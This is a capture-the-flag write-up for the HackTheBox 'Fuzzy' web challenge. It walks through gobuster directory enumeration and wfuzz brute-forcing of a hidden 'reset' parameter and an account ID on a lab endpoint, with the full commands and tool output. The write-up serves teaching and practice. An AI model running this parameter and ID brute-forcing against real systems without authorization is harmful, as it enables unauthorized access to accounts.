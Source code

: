 # Fuzzy (HackTheBox) (WEB-APP Challenge)

Welcome Readers, Today we will be doing the hackthebox(HTB) challenge

# Finding the Page

We have this nice website in front of us..

<<selection 007>>
<br/>

Let's start off with our basic gobuster..

**Command** ```gobuster -u http://docker.hackthebox.eu:42566/ -w /usr/share/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,txt,html,htm```

**Command Explanation**
 - -w (wordlist)
 - -t (50 threads)
 - -x (Look for these extensions in the bruteforce)

**OUTPUT**
```
[sarthak@sarthak tmp]$ gobuster -u http://docker.hackthebox.eu:42566/ -w /usr/share/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,txt,html,htm

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://docker.hackthebox.eu:42566/
[+] Threads      : 50
[+] Wordlist     : /usr/share/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307,403
[+] Extensions   : htm,php,txt,html
[+] Timeout      : 10s
=====================================================
2019/07/11 00:48:35 Starting gobuster
=====================================================
/index.html (Status: 200)
/css (Status: 301)
/js (Status: 301)
/api (Status: 301)
```

Now we got an interesting directory named ```api``` let's gobuster this now...

### Command

```
gobuster -u http://docker.hackthebox.eu:42566/api/ -w /usr/share/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,txt,html,htm
```

**OUTPUT**

```
[sarthak@sarthak tmp]$ gobuster -u http://docker.hackthebox.eu:42566/api/ -w /usr/share/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,txt,html,htm

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://docker.hackthebox.eu:42566/api/
[+] Threads      : 50
[+] Wordlist     : /usr/share/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307,403
[+] Extensions   : php,txt,html,htm
[+] Timeout      : 10s
=====================================================
2019/07/11 00:50:53 Starting gobuster
=====================================================
/index.html (Status: 200)
/action.php (Status: 200)
```

We found the ```action.php``` Let's see what we have on this one ...

<br/>
<selection 008>
<br/>

```
Error: Parameter not set
```

So now we need to find the GET parameter which will be used at this endpoint

## Finding the parameter

For this we will use ```wfuzz``` which can be found [here](https://github.com/xmendez/wfuzz)

### Commands
```
wfuzz --hh=24 -c  -w /usr/share/dirb/wordlists/big.txt http://docker.hackthebox.eu:42566/api/action.php?FUZZ=test
```
**Command Explanation**
 - --hh (filter the length of characters in source code)
 - -c   (Output with colors)
 - -w   (Wordlist)
 - FUZZ (FUZZ keyword will be replaced by the word from the wordlist)

```
[sarthak@sarthak tmp]$ wfuzz --hh=24 -c  -w /usr/share/dirb/wordlists/big.txt http://docker.hackthebox.eu:42566/api/action.php?FUZZ=test 
********************************************************
* Wfuzz 2.4 - The Web Fuzzer                           *
********************************************************

Target: http://docker.hackthebox.eu:42566/api/action.php?FUZZ=test
Total requests: 20469

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                               
===================================================================

000015356:   200        0 L      5 W      27 Ch       "reset"                                                               

Total time: 399.9509
Processed Requests: 20469
Filtered Requests: 20468
Requests/sec.: 51.17877
```

Now we have found our parameter which is ```reset``` let's see what this parameter gives us ...

<br/>
<selection 009>
<br/>

```
Error: Account ID not found
```

Now we will have to bruteforce the ```Account ID```

## Finding Account ID

We will again use wfuzz for it but this time we will set the character length to 27 (You can find this by simply counting it)...

### Command

```
wfuzz --hh=27 -c  -w /usr/share/dirb/wordlists/big.txt http://docker.hackthebox.eu:42566/api/action.php?reset=FUZZ
```

**OUTPUT**

```
[sarthak@sarthak tmp]$ wfuzz --hh=27 -c  -w /usr/share/dirb/wordlists/big.txt http://docker.hackthebox.eu:42566/api/action.php?reset=FUZZ
********************************************************
* Wfuzz 2.4 - The Web Fuzzer                           *
********************************************************

Target: http://docker.hackthebox.eu:42566/api/action.php?reset=FUZZ
Total requests: 20469

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                               
===================================================================

000000318:   200        0 L      10 W     74 Ch       "20"
```

So we got the account ID let's finalise the url and see what's the output...

```
URL:-http://docker.hackthebox.eu:42566/api/action.php?reset=20
```

### OUTPUT

<br/>
<selection 010>
<br/>

And we got the flag :)
<br/>
Thank you guys if you like this writeup stay tuned for more !!
